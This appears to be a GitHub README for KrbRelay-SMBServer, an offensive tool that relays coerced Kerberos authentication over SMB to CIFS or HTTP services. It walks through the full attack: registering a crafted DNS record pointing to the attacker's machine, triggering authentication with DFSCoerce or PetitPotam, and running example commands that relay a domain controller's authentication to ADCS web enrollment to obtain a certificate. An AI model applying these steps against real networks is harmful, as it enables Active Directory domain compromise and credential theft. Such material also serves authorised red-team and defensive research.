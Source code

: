 # KrbRelay-SMBServer

This version of Krbrelay is intended to act as an SMBServer (instead of DCOM) and relay the kerberos AP-REQ to CIFS or HTTP.<br>
90% of code is taken from the great KrebRelay tool: https://github.com/cube0x0/KrbRelay<br><br>
To have control over SPN, which is mandatory for relaying Kerberos, in this case we need to use James Forshaw  *CredMasrhalTargetInfo()*  trick documented here: https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html<br><br>
All you need is to create a DNS entry with the name of the target server you want relay in the form: *<server_name>1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAA* and map it to the ip address of your listening machine.<br>Normally domain users can perform DNS secure updates.
You can use powershell script *invoke-dnsupdate* (https://github.com/Kevin-Robertson/Powermad) for adding a DNS entry<br><br>
You need to trigger the authentication with a third-party tool, for example  DFSCoerce https://github.com/Wh04m1001/DFSCoerce,  PetitPotam https://github.com/topotam/PetitPotam , etc...<br><br>
Given that SMB port is 445 you have two options on the Windows attacker machine:<br>
* use a Linux box acting as redirector
* disable the SERVER serice on your Windows machine
<br><br>
Code contains a lot of unused stuff.  I'll leave it to you to clean it up and create a more optimized version ;)

### Examples

````
# Relay the DC SMB authentication to HTTP (ADCS) web enrollment and request client certificate using a socat redirector lsitening on port 9999:<br>
krbRelay.exe -spn http/adcs-mylab.mylab.local -redirecthost adcs-mylab1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -endpoint certsrv  -adcs DomainController -listenerport 9999<br>
In another window:
DFSCoerce.exe -l adcs-mylab1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA  -t DC-2
(https://github.com/decoder-it/DFSCoerce-exe-2)

# special command line swicthes:
-listener: relay listener port
-redirector: relay server/redirector  mapped to the sepcial DNS entry <server_name>1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAA
For detailed usage and command line switches refer to original krbleay tool
````
I'll leave it to you to clean it up and create a more optimized version
<img width="1036" alt="Screenshot 2024-10-04 135731" src="https://github.com/user-attachments/assets/e2f95aa4-6c94-4517-b6c8-d7629a19a9f4">
<img width="1001" alt="Screenshot 2024-10-04 141231" src="https://github.com/user-attachments/assets/fd7bb972-0942-48d9-b99b-ba623f2823b0">
